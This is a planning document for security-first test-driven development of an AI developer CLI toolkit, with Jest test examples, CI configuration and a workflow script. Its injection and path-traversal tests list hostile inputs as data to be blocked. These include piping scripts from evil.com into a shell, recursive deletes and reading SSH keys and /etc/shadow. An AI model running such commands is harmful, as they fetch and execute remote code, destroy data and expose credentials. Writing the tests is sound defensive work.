

# CLAUDE TDD Strategy: Security-First Testing for AI Developer Toolkit

**Document Version:** 1.0  
**Date:** 2025-01-27  
**Status:** Implementation Strategy  
**Alignment:** CLAUDE-BUILD-PLAN.md v2.0 MVP  
**Testing Philosophy:** Security-First Test-Driven Development  

---

## Executive Summary

This document defines a **comprehensive Test-Driven Development (TDD) strategy** for the Gemini CLI AI Developer Toolkit MVP. The approach emphasizes **security testing as a first-class citizen** alongside functional testing, ensuring every feature is secure, reliable, and maintainable.

### TDD Objectives

1. **Security-First Testing**: Every feature tested for security vulnerabilities from inception
2. **High Coverage**: >90% test coverage across unit, integration, and e2e tests  
3. **Fast Feedback**: Test suite runs in <10 minutes for rapid development
4. **Cross-Platform Quality**: Consistent behavior across Windows, macOS, Linux
5. **AI-Specific Testing**: Specialized testing for AI interactions and responses
6. **📚 Community Standards**: Follow established testing patterns and industry best practices
7. **🔍 Research-Driven**: Research official testing framework docs and community conventions
8. **⚡ Simple Patterns**: Use proven, simple testing approaches over complex architectures

---

## 🔒 Security-First TDD Philosophy

### Security Testing Pyramid



### Core Testing Principles

1. **Red-Green-Refactor with Security**: Write failing security test → Make it pass → Refactor securely
2. **Security Test First**: Security tests written before functional tests
3. **Fail Secure**: Tests ensure failures result in secure states, not exposures
4. **Threat Model Driven**: Tests based on identified threat models
5. **Defense in Depth**: Multiple test layers for critical security functions
6. **📚 Standards-Based**: Follow OWASP testing guidelines and industry security testing standards
7. **🔍 Research Community Patterns**: Study established security testing patterns before implementation
8. **⚡ Simple Test Design**: Use proven testing patterns over complex custom approaches

---

## 📋 Test Categories & Coverage Requirements

### 1. Security Unit Tests (30% of security testing)

**Coverage Target**: 100% of security-critical functions

```typescript
// Example: Input validation security tests
describe('InputValidator Security Tests', () => {
  describe('Path Traversal Prevention', () => {
    test('should block directory traversal attempts', () => {
      const maliciousInputs = [
        '../../../etc/passwd',
        '..\\..\\..\\windows\\system32',
        '/etc/shadow',
        '.ssh/id_rsa',
        '~/.bashrc'
      ];
      
      maliciousInputs.forEach(input => {
        expect(() => InputValidator.validateFilePath(input))
          .toThrow(SecurityValidationError);
        expect(InputValidator.validateFilePath(input).isValid)
          .toBe(false);
      });
    });
    
    test('should allow legitimate file paths', () => {
      const legitimateInputs = [
        './src/components/Button.tsx',
        'project/src/utils.js',
        'docs/README.md'
      ];
      
      legitimateInputs.forEach(input => {
        expect(() => InputValidator.validateFilePath(input))
          .not.toThrow();
        expect(InputValidator.validateFilePath(input).isValid)
          .toBe(true);
      });
    });
  });

  describe('Command Injection Prevention', () => {
    test('should sanitize shell command inputs', () => {
      const maliciousCommands = [
        'ls; rm -rf /',
        'dir && del /f /s /q C:\\*',
        '`curl http://evil.com/steal.sh | bash`',
        '$(wget -O - http://evil.com/malware.sh | sh)',
        'file.txt; cat ~/.ssh/id_rsa'
      ];
      
      maliciousCommands.forEach(cmd => {
        expect(() => CommandExecutor.sanitizeCommand(cmd))
          .toThrow(CommandInjectionError);
      });
    });
  });

  describe('Authentication Security', () => {
    test('should securely store credentials', async () => {
      const credentials = { apiKey: 'test-api-key-123' };
      
      await AuthManager.storeCredentials(credentials);
      
      // Verify credentials are encrypted
      const storedData = await SecureStorage.read('credentials');
      expect(storedData).not.toContain('test-api-key-123');
      expect(CryptoUtils.isEncrypted(storedData)).toBe(true);
    });
    
    test('should handle token expiration securely', async () => {
      const expiredToken = createExpiredToken();
      
      const result = await AuthManager.validateToken(expiredToken);
      
      expect(result.valid).toBe(false);
      expect(result.error).toBe('TOKEN_EXPIRED');
      // Ensure no token data leaks in error
      expect(result.error).not.toContain(expiredToken.value);
    });
  });
});
```

### 2. Security Integration Tests (15% of security testing)

**Coverage Target**: All authentication flows and API integrations

```typescript
describe('Security Integration Tests', () => {
  describe('Authentication Flow Security', () => {
    test('should complete Google OAuth2 flow securely', async () => {
      const authFlow = new GoogleOAuth2Flow({
        clientId: 'test-client-id',
        redirectUri: 'http://localhost:3000/auth/callback'
      });
      
      // Start OAuth flow
      const authUrl = await authFlow.getAuthUrl();
      expect(authUrl).toContain('https://accounts.google.com/oauth/authorize');
      expect(authUrl).toContain('state=');  // CSRF protection
      
      // Simulate callback with authorization code
      const mockCallback = {
        code: 'mock-auth-code',
        state: extractStateFromUrl(authUrl)
      };
      
      const tokens = await authFlow.handleCallback(mockCallback);
      
      // Verify secure token storage
      expect(tokens.accessToken).toBeTruthy();
      expect(tokens.refreshToken).toBeTruthy();
      expect(await SecureStorage.exists('auth_tokens')).toBe(true);
    });
    
    test('should reject invalid authentication attempts', async () => {
      const invalidAttempts = [
        { method: 'api-key', credentials: { apiKey: null } },
        { method: 'api-key', credentials: { apiKey: '' } },
        { method: 'oauth2', credentials: { refreshToken: 'invalid' } }
      ];
      
      for (const attempt of invalidAttempts) {
        await expect(AuthManager.authenticate(attempt))
          .rejects.toThrow(AuthenticationError);
      }
    });
  });

  describe('API Security', () => {
    test('should handle rate limiting securely', async () => {
      const rateLimiter = new RateLimiter({
        rpm: 5,
        burstLimit: 2
      });
      
      // Rapid-fire requests should be rate limited
      const requests = Array(10).fill().map(() => 
        GeminiClient.generateContent({ prompt: 'test' })
      );
      
      const results = await Promise.allSettled(requests);
      const failures = results.filter(r => r.status === 'rejected');
      
      expect(failures.length).toBeGreaterThan(5);
      failures.forEach(failure => {
        expect(failure.reason).toBeInstanceOf(RateLimitError);
      });
    });
  });
});
```

### 3. Functional Unit Tests (70% of functional testing)

**Coverage Target**: >95% code coverage

```typescript
describe('Command Unit Tests', () => {
  describe('ExplainCommand', () => {
    test('should explain JavaScript code correctly', async () => {
      const code = 'function add(a, b) { return a + b; }';
      const command = new ExplainCommand();
      
      const result = await command.execute({
        args: { code },
        options: { language: 'javascript', detail: 'standard' }
      });
      
      expect(result.success).toBe(true);
      expect(result.data.explanation).toContain('function');
      expect(result.data.explanation).toContain('addition');
    });
    
    test('should handle unsupported language gracefully', async () => {
      const command = new ExplainCommand();
      
      const result = await command.execute({
        args: { code: 'invalid syntax here' },
        options: { language: 'unknown-lang' }
      });
      
      expect(result.success).toBe(false);
      expect(result.error).toBeInstanceOf(UnsupportedLanguageError);
    });
  });

  describe('ScaffoldCommand', () => {
    test('should generate React component', async () => {
      const command = new ScaffoldCommand();
      
      const result = await command.execute({
        args: { 
          type: 'react-component',
          description: 'Button with click handler'
        }
      });
      
      expect(result.success).toBe(true);
      expect(result.data.files).toHaveLength(1);
      expect(result.data.files[0].content).toContain('React');
      expect(result.data.files[0].content).toContain('onClick');
    });
  });
});
```

### 4. End-to-End Tests (10% of functional testing)

**Coverage Target**: All critical user journeys across platforms

```typescript
describe('E2E Tests', () => {
  describe('Complete Command Workflow', () => {
    test('should complete explain → scaffold → commit workflow', async () => {
      // 1. Explain existing code
      let result = await cli.run(['explain', 'src/utils.js']);
      expect(result.exitCode).toBe(0);
      expect(result.output).toContain('explanation');
      
      // 2. Generate new component
      result = await cli.run([
        'scaffold', 'react-component', 
        'Modal with backdrop'
      ]);
      expect(result.exitCode).toBe(0);
      expect(fs.existsSync('Modal.tsx')).toBe(true);
      
      // 3. Stage and commit
      await cli.run(['git', 'add', 'Modal.tsx']);
      result = await cli.run(['commit']);
      expect(result.exitCode).toBe(0);
      expect(result.output).toContain('feat: add Modal component');
    });
  });

  describe('Cross-Platform Compatibility', () => {
    test('should work identically on all platforms', async () => {
      const testCases = [
        ['explain', 'package.json'],
        ['docstring', 'src/'],
        ['context', '--analyze']
      ];
      
      for (const testCase of testCases) {
        const result = await cli.run(testCase);
        expect(result.exitCode).toBe(0);
        expect(result.output.length).toBeGreaterThan(0);
      }
    });
  });
});
```

---

## 🚀 Test Automation & CI Integration

### GitHub Actions Test Matrix

```yaml
name: 🧪 TDD Test Suite

on: [push, pull_request]

jobs:
  security-tests:
    name: 🔒 Security Tests
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v4
    - uses: actions/setup-node@v4
      with:
        node-version: '20'
    - run: npm ci
    - run: npm run test:security
    - run: npm run test:security-integration
    
  unit-tests:
    name: 🧪 Unit Tests (${{ matrix.os }})
    strategy:
      matrix:
        os: [ubuntu-latest, windows-latest, macos-latest]
    runs-on: ${{ matrix.os }}
    steps:
    - uses: actions/checkout@v4
    - uses: actions/setup-node@v4
      with:
        node-version: '20'
    - run: npm ci
    - run: npm run test:unit -- --coverage
    - uses: codecov/codecov-action@v3
      with:
        flags: ${{ matrix.os }}

  integration-tests:
    name: 🔗 Integration Tests
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v4
    - uses: actions/setup-node@v4
      with:
        node-version: '20'
    - run: npm ci
    - run: npm run test:integration
    
  e2e-tests:
    name: 🚀 E2E Tests (${{ matrix.os }})
    strategy:
      matrix:
        os: [ubuntu-latest, windows-latest, macos-latest]
    runs-on: ${{ matrix.os }}
    steps:
    - uses: actions/checkout@v4
    - uses: actions/setup-node@v4
      with:
        node-version: '20'
    - run: npm ci
    - run: npm run build
    - run: npm run test:e2e
```

### Test Configuration

```json
{
  "scripts": {
    "test": "jest",
    "test:watch": "jest --watch",
    "test:coverage": "jest --coverage",
    "test:security": "jest --testPathPattern=security",
    "test:unit": "jest --testPathPattern=unit",
    "test:integration": "jest --testPathPattern=integration",
    "test:e2e": "jest --testPathPattern=e2e",
    "test:security-integration": "jest --testPathPattern=security-integration"
  },
  "jest": {
    "preset": "ts-jest",
    "testEnvironment": "node",
    "coverageThreshold": {
      "global": {
        "branches": 90,
        "functions": 90,
        "lines": 90,
        "statements": 90
      }
    },
    "collectCoverageFrom": [
      "src/**/*.ts",
      "!src/**/*.test.ts",
      "!src/**/*.spec.ts"
    ]
  }
}
```

---

## 📊 Test Metrics & Quality Gates

### Coverage Requirements

| Test Type | Minimum Coverage | Target Coverage | Critical Paths |
|-----------|------------------|-----------------|----------------|
| **Security Tests** | 100% | 100% | Auth, Input Validation, Crypto |
| **Unit Tests** | 90% | 95% | All business logic |
| **Integration Tests** | 80% | 90% | API integrations |
| **E2E Tests** | 70% | 85% | Critical user flows |

### Quality Gates

```typescript
// jest.config.js - Quality gates configuration
module.exports = {
  coverageThreshold: {
    global: {
      statements: 90,
      branches: 90,
      functions: 90,
      lines: 90
    },
    // Security-critical files require 100% coverage
    './src/lib/security/': {
      statements: 100,
      branches: 100,
      functions: 100,
      lines: 100
    }
  },
  
  // Fail fast on security test failures
  testFailureExitCode: 1,
  
  // Performance requirements
  testTimeout: 10000, // 10 second max per test
  
  // Security test configuration
  projects: [
    {
      displayName: 'security',
      testMatch: ['<rootDir>/test/security/**/*.test.ts'],
      setupFilesAfterEnv: ['<rootDir>/test/security/setup.ts']
    }
  ]
};
```

---

## 🔧 TDD Development Workflow

### Daily TDD Cycle

```bash
#!/bin/bash
# TDD Development Script

echo "🔒 Starting Security-First TDD Cycle"

# 1. Write failing security test
echo "📝 Write failing security test..."
# Developer writes test that fails

# 2. Run security tests (should fail)
echo "🧪 Running security tests..."
npm run test:security
if [ $? -eq 0 ]; then
  echo "❌ Security test should fail initially"
  exit 1
fi

# 3. Write minimal code to pass security test
echo "✏️ Writing minimal secure implementation..."
# Developer implements security feature

# 4. Run security tests (should pass)
npm run test:security
if [ $? -ne 0 ]; then
  echo "❌ Security tests must pass"
  exit 1
fi

# 5. Write functional tests
echo "📋 Writing functional tests..."
# Developer writes functional tests

# 6. Run all tests
npm run test
if [ $? -ne 0 ]; then
  echo "❌ All tests must pass"
  exit 1
fi

# 7. Refactor while maintaining security
echo "🔄 Refactoring with security preserved..."
npm run test:security && npm run test

echo "✅ TDD cycle complete!"
```

### Command Development Template

```typescript
// TDD Template for new commands
describe('NewCommand TDD', () => {
  // 1. Security tests first
  describe('Security Requirements', () => {
    test('should validate all inputs', () => {
      // Write failing test for input validation
      const command = new NewCommand();
      expect(() => command.validate(null)).toThrow();
    });
    
    test('should handle authentication securely', () => {
      // Write failing test for auth requirement
      const command = new NewCommand();
      expect(() => command.execute({ auth: null })).toThrow();
    });
  });
  
  // 2. Functional tests second
  describe('Functional Requirements', () => {
    test('should execute primary function', () => {
      // Write failing test for main functionality
      const command = new NewCommand();
      // Test implementation goes here
    });
  });
  
  // 3. Integration tests third
  describe('Integration Requirements', () => {
    test('should integrate with Gemini API', () => {
      // Write failing test for API integration
    });
  });
});
```

---

## 🎯 Success Criteria

### MVP Completion Criteria

- ✅ **Security Tests**: 100% coverage of security-critical functions
- ✅ **Unit Tests**: >95% code coverage across all commands  
- ✅ **Integration Tests**: All API integrations tested
- ✅ **E2E Tests**: Critical workflows tested on all platforms
- ✅ **Performance**: Test suite runs in <10 minutes
- ✅ **Quality Gates**: All quality thresholds met

### Ongoing Quality Metrics

- **Test Reliability**: <1% flaky test rate
- **Test Performance**: Suite runtime <10 minutes
- **Security Coverage**: 100% maintained
- **Cross-Platform**: Identical test results across platforms
- **Developer Experience**: <30 seconds to run unit tests

This TDD strategy ensures the **Gemini CLI AI Developer Toolkit** is built with **security-first principles** while maintaining **high code quality** and **rapid development velocity**. 🔒✨